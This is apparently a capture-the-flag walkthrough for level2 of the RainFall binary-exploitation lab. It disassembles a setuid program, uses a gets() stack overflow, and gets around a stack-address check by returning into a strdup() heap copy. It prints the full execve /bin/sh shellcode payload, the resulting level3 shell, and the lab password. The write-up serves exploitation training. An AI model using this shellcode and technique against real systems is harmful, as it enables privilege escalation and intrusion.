

# Level2

## Walkthrough

We list the files in the current home directory.

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

The file is owned by **level3** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

There are 2 user-defined functions: `main()` and `p()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret
End of assembler dump.
```

The `main()` function calls the `p()` function.

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
```

The `p()` function:
- calls `gets()` and stores user input to `[ebp - 0x4c]`
- performs a bitwise `AND` operation on a copy of `old eip` located in `[ebp + 0x4]`, then compares it with `0xb0000000` and calls `exit()` if they are equal
- calls `puts()` to print `gets()` buffer
- calls `strdup()` to allocate a copy of the `gets()` buffer on the heap

Like in the previous level, we can exploit the executable with a **buffer overflow**, because no validation is performed in order to prevent the user from entering more than x characters during `gets()` and overwrite `old eip`.  
But there is no declared function to run in order to spawn a shell: we have to create our own **shellcode**.

We draw a diagram of the `p()` stack frame.




We calculate the difference between the `old eip` in the stack and the `gets()` buffer: 108 - 28 = 80 bytes.

We run a **Python** script whichs writes to stdin:
- a **shellcode** that will be called thanks to the address replaced in `old eip`
- a payload of x characters to write a total of 80 characters
- the address of `[ebp - 0x4c]`, which is the pointer passed to `gets()`, where our shellcode will be stored

We find the address of `[ebp - 0x4c]` by setting a breakpoint before `gets()` in order to catch the address on the top of stack: the first argument passed to the called function.

```
(gdb) b *0x080484ed
Breakpoint 1 at 0x80484ed
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484ed in p ()
(gdb) i r esp
esp            0xbffff5d0       0xbffff5d0
(gdb) x 0xbffff5d0
0xbffff5d0:     0xbffff5ec
```

The address of `[ebp - 0x4c]` is `0xbffff5ec`.

```bash
level2@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + 'A' * 55 + '\xec\xf5\xff\xbf')"; cat) | ./level2 
(0xbffff5ec)
whoami
```

Unfortunately our script doesn't work because of the comparison done in the `p()` function.  
It checks if `old eip` starts with `0xb` and calls `exit()` if it's the case. Because the address of `[ebp - 0x4c]` is `0xbffff5ec`, the result of the comparison is true. And we cannot use an adjacent memory address in order to store our shellcode, because they all start with `0xb`.

After reviewing the `p()` function, we notice that it is calling `strdup()` which in return calls `malloc()` and so allocates memory on the **heap**, which addresses are not close to the stack.  
We use the `ltrace` command to intercept the library calls and get the location in memory of our duplicated string.

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff714, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff61c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff61c
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

We rewrite the previous command in order to account for the changes: `0xbffff5ec` is replaced by `0x0804a008`.

```bash
level2@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + 'A' * 55 + '\x08\xa0\x04\x08')"; cat) | ./level2 
���//sh�/binQVW�$�
                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Resources

- [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](https://0xrick.github.io/binary-exploitation/bof5/#building-the-exploit)
- [BlackCloud - Shellcodes](https://blackcloud.me/shellcodes)
